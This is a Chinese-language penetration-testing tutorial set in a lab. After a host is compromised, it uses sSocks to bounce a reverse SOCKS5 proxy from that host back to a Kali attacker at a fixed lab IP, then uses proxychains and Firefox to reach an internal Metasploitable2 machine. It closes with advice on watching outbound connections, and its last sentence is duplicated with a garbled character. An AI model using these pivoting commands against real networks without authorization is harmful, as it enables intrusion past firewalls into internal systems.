 ```yaml
---
author: 星火燎原@vxhly
title: Socks 代理反弹突破内网
categories: [networking]
tags: [Network, Liunx, Pentest]
date: 2016-11-24 14:46:22
---
```


::: tip 前言
对于渗透测试者来说, 如何绕过防火墙的阻挡在内网展开渗透测试成为需解决的问题, 本文介绍了在夺取映射到外网的内网服务器权限后, 如何利用 Socks 代理反弹获得内网访问权限
:::
<!-- more -->

## 环境介绍

| 机子     | 系统                    | IP                                             |
|----------|-------------------------|------------------------------------------------|
| 攻击机   | `kali Liunx` | 192.168.199.130 (外网)                         |
| 目标主机 | `ubuntu-server` | 192.168.199.131 (外网)；192.168.235.143 (内网) |
| 内网主机 | `Metasploitable2-Liunx` | 192.168.235.142 (内网)                         |

## 工具介绍

### sSocks

sSocks 是一个 socks 代理工具套装, 可用来开启 socks 代理服务, 支持 socks5 验证, 支持 IPV6 和 UDP, 并提供反向 socks 代理服务, 即将远程计算机作为 socks 代理服务端, 反弹回本地, 极大方便内网的渗透测试

### 下载

[sSocks 更新地址](http://sourceforge.net/projects/ssocks/)<br>
这里下载的版本为 `0.0.14` 

``` bash
wget https://nchc.dl.sourceforge.net/project/ssocks/ssocks-0.0.14.tar.gz
```

### 解压并编译

``` bash
tar -xzvf ssocks-0.0.14.tar.gz
cd ssocks-0.0.14
./configure && make
```

::: warning 注意
编译的时候要先确定机子上有 gcc 环境, 没有的请自行安装
:::

### 功能

编译完成, 进入 sr c 目录, 会发现有 `nsocks` 、 `ssocksd` 、 `ssocks` 、 `rcsocks` , 其功能说明介绍如下: 

* **nsocks** 类似通过 Socks5 代理后的 netcat, 可用来测试 socks server
* **ssocksd** 用来开启 Socks5 代理服务
* **ssocks** 本地启用 Socks5 服务, 并反弹到另一 IP 地址
* **rcsocks** 接收反弹过来的 Socks5 服务, 并转向另一端口

## 攻击步骤

现假设已获得 `ubuntu-server` 权限, 也将 ssocks 这软件上传至该服务器（包含解压和编译）

### 执行本地监听

机子: `kali Liunx` ；IP: `192.168.199.130` 

``` bash
cd ssocks-0.0.14/src
./rcsocks -l 1088 -p 1080 -vv
```

等待远程 Socks5 服务器访问本地 1080 端口, 创建端口 1080 与本地端口 1088 的连接通道<br>

![Socks 代理](http://oss-blog.test.upcdn.net/socks-proxy-1.png)

### 开启 Socks5 代理服务, 反弹

机子: `ubuntu-server` ；IP: `192.168.199.131` 

``` bash
cd ssocks-0.0.14/src
./rssocks -vv -s 192.168.199.130:1080
```

启用 Socks5 服务, 反弹到 `192.168.199.130` （即 `kali Liunx` ） 的端口 1080 上<br>

![Socks 代理](http://oss-blog.test.upcdn.net/socks-proxy-2.png)

此时在渗透测试端 `192.168.199.130` （即 `kali Liunx` ） 可看到通道连接成功<br>

![Socks 代理](http://oss-blog.test.upcdn.net/socks-proxy-3.png)

### 利用 proxychains 进行 Socks5 代理

机子: `kali Liunx` ；IP: `192.168.199.130` 

#### proxychains 介绍

通过前面的步骤, Socks5 代理已创建完成了。由于在渗透测试过程中, 需要使用不同的工具程序, 而在各程序中分别配置 Socks5 代理信息较为繁琐, 而部分程序并不支持配置 Socks5 代理。为了简化这些操作, 我们可以采用 `proxychains` 。

proxychains 是一个代理客户端软件, 可以支持几乎所有程序的代理, 如 `ssh` , `telnet` , `ftp` 等。利用 `proxychains` , 程序能在代理的环境下被加载运行, 而本身不需要具备代理功能。

#### proxychains 下载

需要 git 环境, 在 `kali Liunx` 使用 `proxychains` 

``` bash
git clone https://github.com/haad/proxychains.git
```

#### 编译和安装

``` bash
cd proxychains
./configure
make && make install
```

#### 修改配置文件

使用前需要对 proxychains 进行简单配置, 打开配置文件 `/etc/proxychains.conf` 

在 `[ProxyList]` 处添加

``` bash
socks5 127.0.0.1 1088
```

![Socks 代理](http://oss-blog.test.upcdn.net/socks-proxy-4.png)

 配置成功后若要启动程序, 仅需要在启动程序命令前加上 `proxychains` 

### 启用浏览器 firefox

机子: `kali Liunx` ；IP: `192.168.199.130` 

``` bash
proxychains firefox
```

![Socks 代理](http://oss-blog.test.upcdn.net/socks-proxy-5.png)

### 访问内网机子

机子: `kali Liunx` ；IP: `192.168.235.143` 

::: warning 注意
现在已经可以直接访问内网主机了, IP: `192.168.235.142` 
:::

![Socks 代理](http://oss-blog.test.upcdn.net/socks-proxy-6.png)

随便点个链接, 然后再看一眼 `ubuntu-server` 中的日志, 成功访问到内网中的页面<br>

![Socks 代理](http://oss-blog.test.upcdn.net/socks-proxy-7.png)

## 后记

由于系统管理员的疏忽或者业务需求所致, 防火墙一般仅对由外向内发起的数据连接进行严格判断、过滤、甚至阻断而忽略由内往外的连接。因此, 在此种情况下, 通过攻陷映射到公网的端口服务, 利用反弹便可获取内网访问权限, 给内网安全带来极大的威胁。在信息安全建设与运维过程中, 不仅要加强映射到公网的服务安全, 也要重视由内到外连接的安全威胁 � 维过程中, 不仅要加强映射到公网的服务安全, 也要重视由内到外连接的安全威胁

